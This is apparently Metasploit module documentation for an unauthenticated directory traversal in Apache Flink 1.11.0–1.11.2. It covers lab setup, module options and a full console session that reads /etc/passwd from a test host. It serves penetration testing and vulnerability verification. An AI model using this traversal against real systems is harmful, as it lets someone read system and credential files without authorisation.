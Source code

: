 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability
in [Apache Flink](https://flink.apache.org) versions 1.11.0 <= 1.11.2.

The JobManager REST API fails to validate user-supplied log file paths,
allowing retrieval of arbitrary files with the privileges of the web server user.

This module has been tested successfully on:

* Apache Flink version 1.11.2 on Ubuntu 18.04.4.

## Verification Steps

```sh
wget 'https://archive.apache.org/dist/flink/flink-1.11.2/flink-1.11.2-bin-scala_2.11.tgz'
tar zxvf flink-1.11.2-bin-scala_2.11.tgz
cd flink-1.11.2/
./bin/start-cluster.sh
```

Metasploit:

1. `./msfconsole`
1. `use auxiliary/scanner/http/apache_flink_jobmanager_traversal`
1. `set rhosts <rhost>`
1. `set filepath <file path>`
1. `run`

## Options

### FILEPATH

The path to the file to read (Default: `/etc/passwd`)

### DEPTH

Depth for path traversal (Default: `10`)

## Scenarios

### Apache Flink version 1.11.2 on Ubuntu 18.04.4

```
msf6 > use auxiliary/scanner/http/apache_flink_jobmanager_traversal 
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > set rhosts 172.16.191.195
rhosts => 172.16.191.195
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > check
[*] 172.16.191.195:8081 - The target appears to be vulnerable. Apache Flink version 1.11.2 appears vulnerable.
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > set filepath /etc/passwd
filepath => /etc/passwd
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /etc/passwd ...
[+] Downloaded /etc/passwd (2401 bytes)
[+] File /etc/passwd saved in: /root/.msf4/loot/20210216114934_default_172.16.191.195_apache.flink.job_754087.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > cat /root/.msf4/loot/20210216114934_default_172.16.191.195_apache.flink.job_754087.txt
[*] exec: cat /root/.msf4/loot/20210216114934_default_172.16.191.195_apache.flink.job_754087.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > 
```

